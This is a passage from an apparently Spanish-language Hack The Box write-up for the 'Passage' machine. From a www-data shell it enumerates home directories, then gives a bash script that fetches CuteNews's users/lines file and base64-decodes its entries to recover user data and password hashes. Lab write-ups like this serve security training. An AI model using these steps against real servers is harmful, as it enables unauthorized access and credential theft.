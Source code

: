 Listos, ahora a enumerar (:

* En la maquina tenemos dos usuarios: `paul` y `nadav`.

```bash
www-data@passage:/var/www/html/CuteNews/cdata/users$ ls -la /home
ls -la /home
total 16
drwxr-xr-x  4 root  root  4096 Jul 21 10:43 .
drwxr-xr-x 23 root  root  4096 Jul 21 10:44 ..
drwxr-x--- 17 nadav nadav 4096 Dec 13 14:11 nadav
drwxr-x--- 16 paul  paul  4096 Sep  2 07:18 paul
www-data@passage:/var/www/html/CuteNews/cdata/users$ ls /home/nadav
ls /home/nadav
ls: cannot open directory '/home/nadav': Permission denied
www-data@passage:/var/www/html/CuteNews/cdata/users$ ls /home/paul
ls /home/paul
ls: cannot open directory '/home/paul': Permission denied
www-data@passage:/var/www/html/CuteNews/cdata/users$
```

...

En los archivos que tenemos sobre la ruta `/CuteNews` nos encontramos con `/cdata/users/lines`:

![206page80_cutenews_linesfile](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/passage/206page80_cutenews_linesfile.png)

Tenemos cadenas en formato `base64`, pasémoslas a texto legible, podemos crear un script sencillo que nos haga la tarea:

```bash
–» cat extractusers.sh 
#!/bin/bash

url="http://10.10.10.206/CuteNews/cdata/users/lines"

#Hay otras lineas en formato php, pero las que nos interesan son las que empiezan con Y.
curl -s $url | grep -E "^Y" > hashes.txt

while read -r line; do
  #Decodeamos y mostramos
  echo "$line" | base64 -d ; echo; echo
done < hashes.txt

rm -r hashes.txt
```
